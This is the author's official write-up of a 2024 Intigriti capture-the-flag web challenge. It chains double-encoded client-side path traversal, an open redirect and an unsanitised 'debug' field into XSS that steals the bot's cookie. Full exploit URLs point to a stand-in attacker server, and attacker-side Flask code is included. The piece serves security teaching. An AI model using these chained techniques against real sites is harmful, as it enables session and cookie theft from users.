

# 08-24: Safe Notes

| Name                                                                              | Authors                                     | Category                      |
| --------------------------------------------------------------------------------- | ------------------------------------------- | ----------------------------- |
| [Intigriti August (Defcon) Challenge (2024)](https://challenge-0824.intigriti.io) | [CryptoCat](https://twitter.com/_CryptoCat) | CSPT, Open Redirect, XSS, WAF |

[](https://www.youtube.com/watch?v=yGRRGUtT9MU "XSS via CSPT and Open Redirect - Solution to August '24 Challenge (Defcon)")

## Challenge Description

> Find the FLAG and win Intigriti swag! 🏆

## Useful Resources

-   [XSS cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
-   [Open redirect](https://learn.snyk.io/lesson/open-redirect/)
-   [CTBBPodcast: client-side path traversal](https://youtu.be/Kwacl06tX1I?t=2239)
-   [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)

## Solution

I ([CryptoCat](https://youtube.com/@_CryptoCat)) never made a monthly challenge for Intigriti before, so I figured [Defcon](https://defcon.org/html/defcon-32/dc-32-index.html) would be a good time for my debut. My inspiration for this challenge mostly came from watching the [Critical Thinking - Bug Bounty Podcast](https://www.youtube.com/@criticalthinkingpodcast) 💜

First, I'll walk you through the intended solution I had in mind when designing and implementing the challenge. At the end of the writeup, I'll highlight any interesting unintended solutions that may arise, and of course, I'll link all the excellent [community writeups](#community-writeups)! The challenge is provided with source code but I'll highlight relevant snippets throughout, rather than presenting it all up front.

### Recon

#### Site Functionality

Even when source code is included, I like to explore the web application first to get an idea of its basic functionality. When we open the challenge page, we'll see `SafeNotes`, a `secure place to create, store, and share notes`.

Once we register an account and login, a navigation menu appears including `Home`, `Create Note`, `View Note`, `Report`, `Contact` and `Logout`.


When we create a note, an ID is provided so we can retrieve it in the future and share it with others.



We can view the new note at `https://challenge-0824.intigriti.io/view?note=3019c334-6ad2-48b6-bd9d-b90f7f8be848`


If we report the note to a moderator, we'll get a message saying the note was reported successfully.


If we try another URL, e.g. `http://ATTACKER_SERVER`, we will see the following error message.

```
Please provide a valid note URL, e.g. https://challenge-0824.intigriti.io/view?note=12345678-abcd-1234-5678-abc123def456
```

Finally, there is a contact form.


After clicking submit, we're redirected back to the homepage.

#### Source Code Review

Upon downloading the source code, we find two applications; `bot` and `web`. Let's start by looking at the bot since that's where the flag will likely be (we could also search the project for the flag format).

```js
app.post("/visit", async (req, res) => {
    let { url } = req.body;
    if (!url) {
        return res.status(400).json({ error: "URL is required" });
    }

    // Check user-supplied URL starts with https://challenge-0824.intigriti.io
    if (!url.startsWith(BASE_URL)) {
        return res.status(400).json({ error: `URL must start with ${BASE_URL}` });
    }

    try {
        // Launch browser
        const browser = await puppeteer.launch({
            headless: true,
            args: ["--no-sandbox", "--disable-setuid-sandbox"],
        });
        const page = await browser.newPage();

        // Set cookie containing the flag for https://challenge-0824.intigriti.io
        await page.setCookie({
            name: "flag",
            value: FLAG,
            url: BASE_URL,
        });

        // Visit the user-supplied URL
        await page.goto(url, { waitUntil: "networkidle2", timeout: 5000 });

        await sleep(5000);
        await browser.close();
        res.json({ status: "success" });
    } catch (error) {
        console.error(`Error visiting page: ${error}`);
        res.status(500).json({ error: error.toString() });
    }
});
```

I added comments throughout, so it doesn't warrant much further explanation; the bot sets a cookie containing the flag and then visits the URL we provide. So, we need to steal that cookie! 🍪

Note that there is some validation to ensure users cannot provide another domain. You'll notice a lot of validation checks across the challenge, sometimes to the point of redundancy. I'm just paranoid about unintended solutions and not particularly good at XSS myself, so I threw them in everywhere I could 😃 I also figure it makes the code more challenging to analyse/debug, hopefully not to the point of annoyance 😆

Anyway, that's it for the `bot`. Let's check the `web` application starting with the `/report` endpoint in `views.py`.

```python
def report():
    form = ReportForm()
    if form.validate_on_submit():
        note_url = form.note_url.data
        parsed_url = urlparse(note_url)
        base_url_parsed = urlparse(BASE_URL)

        if not parsed_url.scheme.startswith('http'):
            flash('URL must begin with http(s)://', 'danger')
        elif parsed_url.netloc == base_url_parsed.netloc and parsed_url.path == '/view' and 'note=' in parsed_url.query:
            note_id = parsed_url.query[-36:]
            try:
                if uuid.UUID(note_id):
                    with reporting_lock:
                        if current_user.id in reporting_users:
                            flash('You already have a report in progress. Please respect our moderation capabilities.', 'danger')
                        else:
                            reporting_users.add(current_user.id)
                            threading.Thread(target=call_bot, args=(note_url, current_user.id)).start()
                            flash('Note reported successfully', 'success')
```

See what I mean about the validation? I know how much can go wrong with URL parsing 😅 In fact, I want it to go wrong _but_ I want to limit where it goes wrong as much as possible. These checks ensure the user-supplied URL:

-   begins with `http(s)://`
-   `netloc` matches the server, i.e. `challenge-0824.intigriti.io`
-   `path` matches the `/view` endpoint
-   `query` contains `note=`
-   ends with a valid UUID, i.e. `12345678-abcd-1234-5678-abc123def456`

Putting it all together, the user is supposed to supply a URL like `https://challenge-0824.intigriti.io/view?note=12345678-abcd-1234-5678-abc123def456`

They could also provide something like `https://challenge-0824.intigriti.io/view?param1=cat&param2=is&param3=the&param4=best&note=12345678-abcd-1234-5678-abc123def456`

Or even `https://challenge-0824.intigriti.io/view?note=cryptocatisthebest&lol=12345678-abcd-1234-5678-abc123def456`

However, if you try to visit the last URL, you will see an error message like `Please enter a valid note ID, e.g. 12345678-abcd-1234-5678-abc123def456`. This is because there's further validation on the client side in `view.html`.

```js
function isValidUUID(noteId) {
    // Ensure noteID ends with a valid UUID
    const uuidRegex = /[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$/i;
    return uuidRegex.test(noteId);
}

function validateAndFetchNote(noteId) {
    if (noteId && isValidUUID(noteId.trim())) {
        history.pushState(null, "", "?note=" + noteId);
        fetchNoteById(noteId);
    } else {
        showFlashMessage("Please enter a valid note ID, e.g. 12345678-abcd-1234-5678-abc123def456.", "danger");
    }
}
```

You might think, "client-side? I can get around that with F12!". Sure, _you_ can, but how will you convince the admin (bot) to do that? 😉

Hopefully, you are wondering about XSS. Let me then highlight some things 😈

When a new note is created in `create.html`, the following code is executed.

```js
const sanitizedContent = DOMPurify.sanitize(rawContent);

fetch("/api/notes/store", {
    method: "POST",
    headers: {
        "Content-Type": "application/json",
        "X-CSRFToken": csrf_token,
    },
    body: JSON.stringify({
        content: sanitizedContent,
    }),
});
```

Yep, our input is sanitised with \[the latest\] [DOMPurify](https://github.com/cure53/DOMPurify) before being sent to the API for storage.

What happens on the backend? 🤔

```python
def store():
    data = request.get_json()
    content = data.get('content')

    # Server-side XSS protection
    sanitized_content = bleach.clean(content)
```

It's sanitised again!! 😠 This time with \[the latest\] [bleach](https://bleach.readthedocs.io/en/latest/)

Finally, the note is loaded in `view.html` and what's this?!

```js
if (data.content) {
    document.getElementById("note-content").innerHTML = DOMPurify.sanitize(data.content);
    document.getElementById("note-content-section").style.display = "block";
    showFlashMessage("Note loaded successfully!", "success");
} else if (data.error) {
    showFlashMessage("Error: " + data.error, "danger");
} else {
    showFlashMessage("Note doesn't exist.", "info");
}
if (data.debug) {
    document.getElementById("debug-content").outerHTML = data.debug;
    document.getElementById("debug-content-section").style.display = "block";
}
```

Third time is the charm 🍀 The note content is sanitised once _again_ with DOMPurify before finally rendering as `innerHTML`.

Observant readers may have noticed that `data.debug` is _not_ passed through DOMPurify before being rendered as `outerHTML` though. Interesting! 💡

However, we saw earlier that `create.html` only accepts a `content` parameter. Perhaps we could forge a request to the `/api` with a `debug` parameter? Unfortunately, we also saw the server-side code for `/api/notes/store` only reads the `content` parameter received in POST requests 😕

Anyway, back to `view.html`. Digging through the JS, there is an API call to fetch note content, similar to how notes are stored. Both of these API endpoints are protected against CSRF.

```js
if (noteId.includes("../")) {
    showFlashMessage("Input not allowed!", "danger");
    return;
}
fetch("/api/notes/fetch/" + decodeURIComponent(noteId), {
    method: "GET",
    headers: {
        "X-CSRFToken": csrf_token,
    },
});
```

Notice the note ID is being checked for `../`? After all, it is user-controllable input that will later be used as a parameter in an API call 👀 That brings us to the first vulnerability.

### Client-side Path Traversal (CSPT)

I mentioned in the introduction my inspiration for the challenge came from watching the [Critical Thinking - Bug Bounty Podcast](https://www.youtube.com/@criticalthinkingpodcast) but of course, inspiration is not enough; I needed to do some further research. I read a lot of bug bounty reports and blog posts about CSPT:

-   [Fetch diversion (acut3)](https://acut3.net/posts/2023-01-03-fetch-diversion) (also covered in [DayZero podcast](https://youtu.be/ulcQ_rI2V8Q?t=292))
-   [CSPT2CSRF whitepaper (Doyensec)](https://www.doyensec.com/resources/Doyensec_CSPT2CSRF_Whitepaper.pdf) (also a [blog version](https://blog.doyensec.com/2024/07/02/cspt2csrf.html))
-   [Practical client-side path traversal attacks (Medi)](https://mr-medi.github.io/research/2022/11/04/practical-client-side-path-traversal-attacks.html)
-   [Client side path manipulation (erasec)](https://www.erasec.be/blog/client-side-path-manipulation)
-   [Arbitrary PUT request as victim user through Sentry error list (joaxcar)](https://gitlab.com/gitlab-org/gitlab/-/issues/365427)
-   [The power of CSPT: how I found and escalated 2 bugs through "../" (Nightbloodz)](https://medium.com/@Nightbloodz/the-power-of-client-side-path-traversal-how-i-found-and-escalated-2-bugs-through-670338afc90f)
-   [Bypassing WAFs to exploit CSPT using encoding levels (matanber)](https://matanber.com/blog/cspt-levels)
-   [From an innocent client-side path traversal to account takeover (kapytein)](https://kapytein.nl/from-an-innocent-client-side-path-traversal-to-account-takeover)

I highly recommend reading through them; they discuss some super cool bugs! Let me know if I've missed any good resources 😇 Anyway, a quick summary from [Doyensec](https://blog.doyensec.com/2024/07/02/cspt2csrf.html):

> Every security researcher should know what a path traversal is. This vulnerability gives an attacker the ability to use a payload like `../../../../` to read data outside the intended directory. Unlike server-side path traversal attacks, which read files from the server, client-side path traversal attacks focus on exploiting this weakness in order to make requests to unintended API endpoints.

Before verifying the CSPT vulnerability and searching for interesting endpoints, we must bypass the WAF.

#### WAF Bypass

Can you call _this_ a WAF? 🤔

```js
if (noteId.includes("../")) {
    showFlashMessage("Input not allowed!", "danger");
    return;
}
```

Well, it's good clickbait and SEO, so I'm doing it!

The filter is primitive; it only checks for the string `../`, so we can try and [URL encode it](<https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=Li4v>) to `%2E%2E%2F`, e.g. `https://challenge-0824.intigriti.io/view?note=%2E%2E%2F4d31db30-ce76-405e-89b3-45d1067ddacc`

Actually, this fails since modern browsers will perform a layer of URL decoding when we use the address bar. Luckily, we can just [URL encode it twice](<https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)URL_Encode(true)&input=Li4v>) to `%252E%252E%252F`, e.g. `https://challenge-0824.intigriti.io/view?note=%252E%252E%252F4d31db30-ce76-405e-89b3-45d1067ddacc`

Since the `noteId` is [URI decoded](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/decodeURIComponent) before the API call (but _after_ the validation), it should be valid.

```js
fetch("/api/notes/fetch/" + decodeURIComponent(noteId)
```

Indeed, we see an API call to `/api/notes/4d31db30-ce76-405e-89b3-45d1067ddacc` instead of the intended `/api/notes/fetch/4d31db30-ce76-405e-89b3-45d1067ddacc`


Let's try and go back to the `/home` endpoint (`../../../`) with `https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fhome/4d31db30-ce76-405e-89b3-45d1067ddacc`

It works, but we get `404: not found` because `/home/4d31db30-ce76-405e-89b3-45d1067ddacc` is \[obviously\] not a valid path.


However, we can't remove the UUID from the end of the URL due to the various validation checks outlined earlier.

#### URL Parsing

There are many different techniques to [bypass URL format validation checks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass), but I went with this one; add a second GET parameter to the end of the URL containing a valid UUID, e.g. `https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fhome?lol=4d31db30-ce76-405e-89b3-45d1067ddacc`


We get a `200 OK`, and the response shows the challenge homepage! Note that this doesn't display in the browser, and if we check the console output, we will see why.

```js
Uncaught (in promise) SyntaxError: JSON.parse: unexpected character at line 1 column 1 of the JSON data
```

It's because `view.html` expects a JSON object containing a key named `content`.

```js
.then((response) => response.json())
.then((data) => {
	if (data.content) {
```

We can return to this later after we've traversed the application's endpoints for useful functionality that might help us construct an attack.

#### Finding a Useful Endpoint

Maybe somebody will find some cool unintended that I didn't anticipate but from my testing of the various endpoints for CSPT:

-   `/home` - The first one we tested; I can't think what possible use there could be of diverting the admin to the homepage 😅
-   `/create` - Similarly, we get a 200 OK on the API call, but to what end?
-   `/api/notes/store` - We can traverse back 1 directory to `/store` but get a `405: method not allowed`. This is one of the unfortunate aspects of CSPT; we can't control the HTTP method. Notes are stored via POST and viewed via GET.
-   `/view` - We can already make the admin access this endpoint, that's the intended functionality of the report feature. I can't think of any usefulness.
-   `/report` - Again, the GET request will simply fetch the page contents without rendering as it expects JSON. Even if we had a POST CSPT, it wouldn't help unless we wanted to create a weird reporting loop or something 🤔
-   `/logout` - We could force the user to log out 😂 Yeh, not helpful..

I purposefully left out the second-to-last endpoint on the navigation menu, `/contact`. I also avoided analysing it in detail during the initial recon phase; let's do that now.

### Open Redirect

Here's the `/contact` route from `views.py`.

```python
@main.route('/contact', methods=['GET', 'POST'])
def contact():
    form = ContactForm()
    # Take user-supplied "return" URL as parameter
    return_url = request.args.get('return')
    if request.method == 'POST':
        if form.validate_on_submit():
            flash('Thank you for your message!', 'success')
            # If the URL begins with http(s) - redirect to it
            if return_url and is_safe_url(return_url):
                return redirect(return_url)
            return redirect(url_for('main.home'))
    # If the URL begins with http(s) - redirect to it
    if return_url and is_safe_url(return_url):
        return redirect(return_url)
    return render_template('contact.html', form=form, return_url=return_url)
```

I've added some comments to illustrate the functionality. If the user provides a `return_url` which passes the following check:

```python
def is_safe_url(target):
    test_url = urlparse(urljoin(request.host_url, target))
    return test_url.scheme in ('http', 'https')
```

They will be redirected to that location, AKA [Open Redirect](https://www.youtube.com/watch?v=4Jk_I-cw4WE). I added the `http(s)` check to ensure players couldn't use `javascript:` or `file:` or some crazy protocols I don't know about.

You don't need source code or any fuzzing to identify this vulnerability. All you need to do is submit the contact form, and you will see the redirect in the HTTP history; `contact?return=/home`


Send it to the burp repeater, change the request method to GET, and change the `return` parameter to some other value, e.g., `/logout`, and you will see what happens! Here's an example: `https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=/logout?lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

This means we can send the following URL to the admin bot to log them out; `https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=/logout?lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

#### URL Parsing Behaviour

If you tried another variation (using `&lol` instead of `?lol`)

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=/logout&lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

You would notice it fails.

```
Please enter a valid note ID, e.g. 12345678-abcd-1234-5678-abc123def456.
```

It's because the `note` parameter is validated to ensure it ends with a valid UUID. One way around this would be to [URL-encode](<https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=Jg>) the `&` (it will be URL-decoded after the validation anyway).

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=/logout%26lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

If we change the `?` after `contact` to an `&`, we'll see the same error. However, URL-encoding the `&` does not work this time.

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact%26return=/logout%26lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

That's because the request to log out ends up looking like `/contact&return=/logout&lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

Clearly invalid; the first query key needs to preceded by a `?`

#### External Redirect

The only restriction on the `return` URL is that it must use the `http(s)` protocol. Let's try to spin up a server, e.g. [ngrok](https://ngrok.com), [requestbin](https://requestbin.com), [webhook](https://webhook.site) etc.

We visit the following URL, we should see an entry in our server logs.

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=https://ATTACKER_SERVER/%26lol=4d31db30-ce76-405e-89b3-45d1067ddacc`


We get a hit, but it's a `501: message Unsupported method ('OPTIONS')`. Let's check ChatGPT 🧠

#### CORS

> The error message you're encountering indicates that the server does not support the `OPTIONS` HTTP method. This is often related to Cross-Origin Resource Sharing (CORS) preflight requests, which are automatically sent by the browser when certain conditions are met, such as:
>
> 1.  Using HTTP methods other than GET, HEAD, or POST.
> 2.  Using custom headers.
> 3.  Sending any data in the request body other than simple text.

As far as I can tell, the only condition that applies is `(2)` since the `X-CSRFToken` header is included in the fetch request.

One possible workaround is to provide a `no-cors` option as a parameter in the fetch call. However, we'll have no control over this code when delivering our malicious link to the admin.

Instead, let's handle the OPTIONS request on the attacker server. We can easily create a basic Flask application to manage this.

```python
from flask import Flask, send_from_directory
from flask_cors import CORS
import os

app = Flask(__name__)
CORS(app)

@app.route('/', methods=['GET', 'POST'])
def index():
    current_dir = os.path.dirname(os.path.abspath(__file__))
    return send_from_directory(current_dir, 'index.json')

if __name__ == '__main__':
    app.run(debug=True)
```

We must find a way around the JSON format error, so let's add a simple `index.json` file.

```json
{ "content": "I just injected this :)", "status": "success" }
```

We visit the same URL and this time, the OPTIONS request is followed up with a GET (`200 OK`).


Checking the browser confirms that the `content` from our `index.json` file has been successfully injected into the page!


### XSS

All that remains is to develop an XSS payload that steals the admin's cookie. What if we try a classic one? You can enter `document.cookie = "test"` in your browser console for testing purposes.

```json
{
    "content": "",
    "status": "success"
}
```


We get the broken image but nothing in the HTTP logs. Checking the source shows why; the script was stripped from the input.


It's because we only bypassed 2/3 sanitisation steps:
✅ DOMPurify in `create.html`
✅ Bleach in `/api/notes/store`
❌ DOMPurify in `view.html`

That's right; our `content` parameter is sanitised.

```js
document.getElementById("note-content").innerHTML = DOMPurify.sanitize(data.content);
```

Remember that other `debug` parameter?

```js
document.getElementById("debug-content").outerHTML = data.debug;
```

We never had a way to inject this content because `/api/notes/store` only saved the `note.content` to the database. Now, we can inject any property we choose into the JSON object!

```json
{
    "debug": "",
    "status": "success"
}
```

We get the cookie!


All that's left is to send the final URL to the admin.

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=https://ATTACKER_SERVER%26lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

The note is reported successfully, and we receive the flag 🚩


Flag: `INTIGRITI{1337uplivectf_151124_54v3_7h3_d473}`

## Summary (TLDR)

Here's a quick summary of the challenge design / intended solution 🙂

> Note taking/sharing application that allows users to report notes to a moderator

-   Users can register/login and find options to create/view/report notes, as well as "contact"
-   Players will review the challenge source code and find the admin/moderator sets the flag in a cookie before visiting our "reported note"
-   The reported note URL must be in the format `http://CHALLENGE_URL/view?note=12345678-abcd-1234-5678-abc123efg456`
    -   Specifically, it must begin with `http://CHALLENGE_URL/view?note=` and end with a valid UUID, e.g. `12345678-abcd-1234-5678-abc123efg456`
-   Players will likely attempt XSS payloads on the `/create`, but the input is processed with the latest DOMPurify (it's subsequently sanitized with Bleach on the server-side too)
-   Furthermore, if players review the `/view` endpoint, they will find DOMPurify sanitizes the note content before rendering
-   They should also notice the CSRF-protected API endpoint to fetch (and store) notes
    -   It looks for a valid UUID (but only at the end of the string, like `/report`)
    -   It checks if the note ID includes `../` (hint at CSPT)
    -   There's a `data.debug` variable that doesn't get sanitized by DOMPurify (hint at XSS)
-   Basically, the note ID is passed from a user-controllable parameter (GET) to the API. The `../` check can be bypassed with double-URL encoding (it will be normalized before the API call)
-   So, which endpoint to traverse to? Players who tested the `/contact` endpoint will have discovered an open redirect, e.g. `../../../contact?return=/home`, and this can be set to an external URL, e.g. `../../../contact?return=https://ATTACKER_SERVER`
-   Since [fetches are followed automatically](https://acut3.net/posts/2023-01-03-fetch-diversion), players can have their server deliver content
-   When the admin visits the URL, the CSPT will call the `/contact` endpoint, which will redirect to the attacker server, which will respond with an XSS payload
-   Some barriers to overcome:
    -   Players will get a CORS error but can resolve it by creating a CORS Flask app on their server
    -   `data.content` is sanitized - players will need to create a JSON object that has a `debug` property since `data.debug` is set to `outerHTML` without being processed by DOMPurify
    -   Path traversal must be double-encoded to bypass WAF, e.g. `..%252F..%252F..%252F`
    -   `/report` requires the URL ends with a valid UUID, so players will need to add `&lol=b00af6a0-7f48-46a1-8f54-f50c963950c3` or `?=b00af6a0-7f48-46a1-8f54-f50c963950c3` or `/b00af6a0-7f48-46a1-8f54-f50c963950c3` to the end of the `return` URL
    -   However, `/view` also requires the note ID to end with a valid UUID, so they will actually need to URL-encode the `&` like `return=http://ATTACKER_SERVER%26lol=b00af6a0-7f48-46a1-8f54-f50c963950c3`
-   The full payload should look like `https://CHALLENGE_URL/view?note=..%252F..%252F..%252Fcontact?return=https://ATTACKER_SERVER%26lol=b00af6a0-7f48-46a1-8f54-f50c963950c3` with attacker server hosting something like `{"debug": "", "status": "success"}`
-   Player will receive the flag as a GET parameter in their web server log

## Community Writeups

1. [JorenVerheyen](https://jorenverheyen.github.io/intigriti-august-2024.html)
2. [alfinjose](https://alfinj0se.github.io/posts/intigritixssaug2024)
3. [stealthcopter](https://sec.stealthcopter.com/intigriti-august-2024-ctf)
4. [NeptunianHacks](https://fireshellsecurity.team/intigriti-august-challenge)
5. [antoniusblock23](https://blog.antoniusblock.net/posts/intigriti-08-2024-challenge-99ed0906-df4c-42e7-b366-51d3787b7f1c)
6. [0xalessandro](https://0xalessandro.notion.site/INTIGRITI-0824-3cfa34a180f84ff8b7c7e7451a29a055?pvs=4)
7. [benjamin](https://gist.github.com/BenjaminStienlet/6349588b2049ae0338bab806c7c9b77e)
8. [memosec](https://gist.github.com/memosec/f77f0bf798e0fcd2c3802de4a1b99275)
9. [t0m7r00z](https://www.youtube.com/watch?v=N-MtI7LRoss)
